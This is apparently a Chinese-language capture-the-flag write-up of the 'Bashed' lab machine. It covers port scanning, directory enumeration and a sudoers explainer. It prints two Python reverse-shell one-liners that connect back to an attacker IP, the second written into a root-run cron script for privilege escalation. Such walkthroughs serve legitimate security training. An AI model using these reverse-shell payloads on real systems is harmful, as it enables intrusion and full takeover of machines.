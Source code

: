 # bashed

## 端口扫描

```shell
nmap -vv -sV -sT -A -T 4 10.129.208.65 
```

```
PORT     STATE    SERVICE          REASON      VERSION
80/tcp   open     http             syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
259/tcp  filtered esro-gen         no-response
1417/tcp filtered timbuktu-srv1    no-response
5004/tcp filtered avt-profile-1    no-response
9111/tcp filtered DragonIDSConsole no-response

```

### 访问下80端口

![image-20230501152755513](/image/image-20230501152755513.png)

## 目录探测

```shell
gobuster dir --url http://10.129.208.65 -w /usr/share/wordlists/dirb/small.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.208.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/01 14:29:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://10.129.208.65/css/]
/dev                  (Status: 301) [Size: 312] [--> http://10.129.208.65/dev/]
/images               (Status: 301) [Size: 315] [--> http://10.129.208.65/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.208.65/js/]
/php                  (Status: 301) [Size: 312] [--> http://10.129.208.65/php/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.208.65/uploads/]
Progress: 959 / 960 (99.90%)
===============================================================
2023/05/01 14:30:35 Finished
===============================================================
```

### 访问下/dev

![image-20230501153106883](/image/image-20230501153106883.png)

![image-20230501153207799](/image/image-20230501153207799.png)

### 获得了user的flag，尝试进一步提权到root

## 权限提升

![image-20230501153250145](/image/image-20230501153250145.png)

### 补充一点关于sudoers文件的知识

```
规则讲解

sudoers文件的数据，每一行分为五个部分，我们用ABCDE来表示。
 一般情况下是: A B = {©} {D} E
 且C与D是可以省略的，我们用大括号扩起来方便大家注意到，但真正书写命令的时候不需要打括号。

    第一个部分A代表授权使用sudo的用户或者组
    第二部分B代表允许授权用户在哪些主机上使用这些权利
    第三部分C代表允许被授权用户提权到什么用户什么组级别的权限，如果省略就代表允许提权到任意用户级别。
    第四部分D代表当被授权用户是否需要输入自身密码来使用特权，若省略这代表需要输入密码
    第五部分E代表允许执行的命令，如果是all就代表允许执行所有命令

第一部分A

A表示的是哪个用户或者哪个用户组拥有执行sudo的权限，当A前面带有%的时候，代表的是用户组。
 例如
 admin all = (all) all
 这行命令表示admin用户可以登陆到任意主机，并且可以提权到任意用户，并且可以执行任意命令，但需要输入用户admin到密码。
 如果在admin前面加上%就会使得admin组的所有用户拥有这些权限，使用的时候需要输入对应用户的密码。而这一行命令典型的就是省略了第四个属性，也就是D，D代表的是密码。
第二部分B

B代表用户可以在哪些电脑上使用这些特权，这一个字段一般是主机名。
 例如：jack mycomputer=/usr/sbin/reboot,/usr/sbin/shutdown
 上面这行表示jack可以在mycomputer上提权到root用户，并且允许以root权限使用reboot与shutdown命令，但是需要输入jack的密码才可以。
第三部分C

代表的是允许提权到的目标用户与组，例如(root:root)的意思就是提权到root用户root组，也就是当前用户使用sudo命令的时候会获得与root用户root组相同的权限。
 当C参数隐藏的时候，默认提权权限就是root。如果是all的话就是指的可以提权到任意用户任意权限。
第四部分D

这个参数是用来定义当目标用户使用sudo的时候，是否需要输入用户密码。如果为NOPASSWD:则表示不需要，否则为需要,注意字母后面带了冒号。
第五部分E

表示允许执行的命令。
```

### 先把shell转发到kali机器上，直接在phpbash里运行python反弹shell的命令

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

### 后面的步骤需要耐心观察+运气了

```shell
cd /script
ls -la

```

### 多次使用ls -la可以看到test.txt的最后修改时间，每隔一段时间就会更新。并且test.txt的文件所有者是root，可能是root用户的定时任务每隔一段时间运行test.py生成而来的。这里如果对test.txt的最后一次修改时间观察不仔细，很容易漏掉这个细节，这也是我踩的一个坑。

```
echo 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' > test.py
```

### 再次将反弹shell的命令写test.py，同时监听12345端口，看看等下能不能收到shell。

![image-20230501180811085](/image/image-20230501180811085.png)

### 看了下计划任务，果然定时执行test.py文件。

